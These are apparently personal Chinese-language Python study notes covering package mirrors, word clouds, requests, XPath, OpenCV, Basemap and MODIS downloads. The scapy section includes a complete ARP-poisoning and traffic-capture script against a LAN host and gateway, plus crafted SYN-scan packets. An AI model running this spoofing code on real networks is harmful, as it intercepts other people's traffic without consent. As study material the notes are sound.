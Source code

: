Python
==============

修改pip/conda的安装源
::

 conda config --add channels https://mirrors.tuna.tsinghua.edu.cn/anaconda/pkgs/free/
 conda config --set show_channel_urls yes

 新建pip/pip.ini
 [global]
 timeout = 6000
 index-url = https://pypi.tuna.tsinghua.edu.cn/simple
 trusted-host = pypi.tuna.tsinghua.edu.cn


词云
---------------

需要安装jieba、wordcloud
通过命令行直接生成词云的命令行::
 
 wordcloud_cli --text file_path.txt --imagefile wordcloud.png
 # 可以通过wordcloud_cli 进行更详细的调节，需要对文件分词，自带的分词效果较差
 # --fontfile path 支持中文
 # --mask file
 # --background white


通过jieba对中文分词处理::
 
 import jieba
 import wordcloud
 import matplotlib.pyplot as plt

 words = open(r'words.txt','rb').read().decode('utf-8')
 # print(words)
 cut_words = list(jieba.cut(words))
 cut_str = ' '.join(cut_words)
 print(cut_words)
 make = wordcloud.WordCloud(font_path=r'C:\Windows\Fonts\simkai.ttf')
 s = make.generate(cut_str)
 plt.imshow(s)
 plt.axis('off')
 plt.show()

requests
------------------

发送http请求::

 url = 'https://www.baidu.com'
 headers = {'user-agent':""}
 proxy = {"http":"89.17.37.218:52957"} # 使用代理
 response = requests.get(url,params={"wd":"中国"},proxies=proxy)
 # response.content 是原始页面的byte类型，没有解码
 # response.text 是requests 解码后的数据，解码方式是推测的，可能出错

 response = request.post(url,data) # post 请求

urllib 
-----------------------

|    urllib 可以导入request(最为常用)、response、parse

>>> proxy = request.ProxyHandler({"http":"192.122.132.1"})
    opener = request.build_opener(proxy)
    opener.open(url)
 
lxml(XPath)
-------------------

::

 //div  任意位置div

 /div   根节点查找

 *      匹配任意节点

 @*     匹配任意属性

 @      匹配某一属性  

 1. //input[@id="str"] 精确匹配
 2. //input[@class,"f"] 模糊匹配

在python中的导入

>>> from lxml import html
html.etree.parse() # 传入文件地址
html.etree.fromstring() # 传入字符串






scapy
-------------------------
模拟三次握手::
 
 windows查看端口 netstat
 
 send(),在第三层发送数据包，但没有接收功能
 sendp(),在第二层发送数据包，同样没有接收功能

 sr(),在第三层发送数据包，有接收功能
 sr1(),在第三层发送数据包，有接收功能，但只接收第一个包
 srloop(),在第三层工作,循环发包

 srp()、srp1()、srploop()与sr,sr1,srloop类似,只是工作在第二层
 开始模拟时需要设置防火墙规则，防止操作系统发送RST
 iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.233.1 -j DROP
 
 flags = 2 为SYN扫描，半开式扫描
 recv=sr1(IP(dst="192.168.233.1")/TCP(dport=10020,sport=7777,flags="S"))
 ack = recv.ack
 seq = recv.seq
 
 发送ACK(flag = 16),完成三次握手！
 send(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=16,seq=ack,ack=seq+1))

 flag为24（ACK = 16，PUSH = 8) 发送数据
 recv1 = sr(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=24,seq=ack,ack=seq+1)/"hi", multi=1, timeout=10)
 如果多次发送数据需要每次对获取的seq+1,然后令ack等于seq+1

 flags=17, FIN（1） + ACK（16），进行连接终结
 recv1=srp1(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,seq=ack,ack=seq+1,flags=17))

arp投毒,抓包::

 from scapy.all import *
 import os
 import sys
 import threading
 import signal
 from scapy.layers.l2 import ARP, Ether

 def restore_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("restore target >>>>>>>")
    send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=5)
    send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=5)
    os.kill(os.getpid(),signal.SIGINT)
 def get_mac(ip_address):
    responses,unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address),
                               timeout=2,retry=10)
    a = 1
    for s,r in responses:
        print(s)
        print("$"*20)
        print(r)
        return r[Ether].src
 def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("begin to ARP poison")
    while True:
        try:
            send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst=target_mac)) # 欺骗主机
            send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst=gateway_mac)) # 欺骗网关
        except KeyboardInterrupt:
            restore_target(gateway_ip,gateway_mac,target_ip,target_mac)

    # print("stoped poison")
 if __name__ == '__main__':

    target_ip = '192.168.0.150'
    gateway_ip = '192.168.0.1'
    packet_count = 10
    conf.verb = 0
    gateway_mac = get_mac(gateway_ip)
    target_mac = get_mac(target_ip)
    print(gateway_mac,target_mac)
    poison_thread = threading.Thread(target=poison_target,args=(gateway_ip,gateway_mac,
                                                                target_ip,target_mac))
    poison_thread.start()
    try:
        bpf_filter = "ip host %s"%target_ip
        packets_ = sniff(count=packet_count,filter=bpf_filter) # 抓包
        wrpcap("arp.pcap",packets_)
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac) # 恢复原先设置
    except KeyboardInterrupt:
        restore_target(gateway_ip, gateway_mac, target_ip, target_mac) # 恢复原先设置

    poison_thread.join()

opencv
---------------------
opencv 安装

1. pip install opencv-python==3.4.2.16

2. pip install opencv-contrib-python==3.4.2.16

::
 
 # 读取图片
 cv2.imread(img_path)
 # 读取影像
 video = cv2.VideoCapture(0) # 0 读取本地摄像头
 ret,frame = video.read() # frame 是每一帧,ret 是读取成功与否标志
 cv2.waitKey(10) # 每帧的间隔时间为10 0xFF==27(Esc键)
 
 # 基本操作
 b,g,r = cv2.split(img) # 拆分通道
 cv2.merge((b,g,r)) # 合并通道
 img = cv2.copyMakeBorder(img,20,20,10,10,cv2.BORDER_REFLECT) # 边界填充
 img = cv2.resize(img,(0,0),fx=0.5,fy=0.5) # 重新调整大小
 img = cv2.addWeighted(img,0.5,img,0.6,0) # 图像按权重融合

 # 阈值操作
 ret,img = cv2.threshold(img,127,255,cv2.THRESH_BINARY) 
 
 # 图像平滑
 img = cv2.blur(img,(3,3),borderType=cv2.BORDER_REFLECT) # 均值滤波
 img = cv2.boxFilter(img,-1,(3,3),normalize=True) # 方框滤波 不标准化越界后赋值为255
 img = cv2.medianBlur(img,3) # 中值滤波
 img = cv2.GaussianBlur(img,(3,3),1) # 权重处理
 
 # 形态学操作
 img = cv2.erode(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 腐蚀最大值,针对最大值
 img = cv2.dilate(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_OPEN,np.ones((5,5),dtype=np.uint8)) # 先腐蚀再膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_CLOSE,np.ones((5,5),dtype=np.uint8)) # 先膨胀再腐蚀
 img = cv2.morphologyEx(img,cv2.MORPH_GRADIENT,kernel) # 梯度 膨胀-腐蚀
 # 礼帽=原始输入-开运算结果; 黑帽=闭运算-原始输入

 # 梯度
 img = cv2.Sobel(img,-1,dx=1,dy=1,ksize=3) # sober算子
 img = cv2.Scharr(img,cv2.CV_64F,dx=0,dy=1) # 细节更为丰富
 img = cv2.Laplacian(img,-1,ksize=3) # 对噪音敏感

 # 边缘检测
 # canny 1.高斯滤波 2.梯度(sober) 3.非极大值抑制 4.双阈值检测
 img = cv2.Canny(img,100,120) # 双阈值: minvalue 100,maxvalue 120

 # 高斯金字塔
 img = cv2.pyrUp(img) # 上采样
 img = cv2.pyrDown(img) # 下采样

 # 图像轮廓
 img,contours,hierarchy = cv2.findContours(img,cv2.RETR_TREE,cv2.CHAIN_APPROX_SIMPLE)
 res = cv2.drawContours(img,contours,-1,(0,255,0),1) # 绘制轮廓
 area = cv2.contourArea(contours[0]) # 计算轮廓面积
 arcLen = cv2.arcLength(contours[0],True) # 计算周长
 res = cv2.approxPolyDP(contours[0],0.1*cv2.arcLength(contours[0],True),True) # 近似周长(点)
 x, y, w, h = cv2.boundingRect(contours[0]) # 外界矩形
 rec = cv2.rectangle(img,(x,y),(x+w,y+h),(0,255,0)) # 绘制矩形

 # 直方图
 res = cv2.calcHist([img],[0],None,[256],[0,256]) # 计算直方图
 mask[50:150,50:150] = 255 # 制作mask

 # SIFT
 cv2.xfeature2d.SIFT_create() # 构建sift
 kp = sift.detect(gray,None) # 检测
 img = cv2.drawKeypoints(gray,kp,img)
 kp,des = sift.compute(gray,kp) # 128维向量

 # 特征匹配
 bf = cv2.BFMatcher(crossCheck=True) # 蛮力匹配
 bf.match()

 # 背景建模
 # 1. 帧差法
 # 2. 混合高斯模型(GMM)

basemap
------------------
::

 projection
 # Albers Equal Area Projection
 # lat_1 is first standard parallel.
 # lat_2 is second standard parallel.
 # lon_0,lat_0 is central point
 m = Basemap(width=8000000,height=7000000, resolution='l',projection='aea', lat_1=40.,lat_2=60,lon_0=35,lat_0=50)
 m.drawcoastlines() # 海岸线
 m.drawcountries() # 国家界限
 m.drawparallels(np.arange(-80.,81.,20.)) # 纬线
 m.drawmeridians(np.arange(-180.,181.,20.)) # 经线
 m.drawgreatcircle(90,35,100,50,color="r") # 连接线
 m.bluemarble() # draw a NASA Blue Marble image as a map background.卫星背景
 m.shadedrelief() # draw a shaded relief image as a map background,阴影背景
 m.etopo() # 浮雕(背景)
 m.quiver(90,45,1,5,color='g') # 添加矢量箭头

modis download script
-----------------------------------

1. 安装python(https://www.python.org/downloads/)

2. 找到python的安装目录,在cmd下使用cd命令到进入该目录(Scripts),使用dir命令查看当前目录文件。如果存在pip.exe说明当前位置正确,然后安装所需模块(GDAL文件需要全路径),安装命令如下

::

 pip install GDAL-3.0.1-cp38-cp38-win_amd64.whl
 pip install pymodis

3. 运行下载脚本(down_modis.py为下载脚本,需要给出脚本的本地全路径,本示例仅有文件名)

::

 cd ..
 python down_modis.py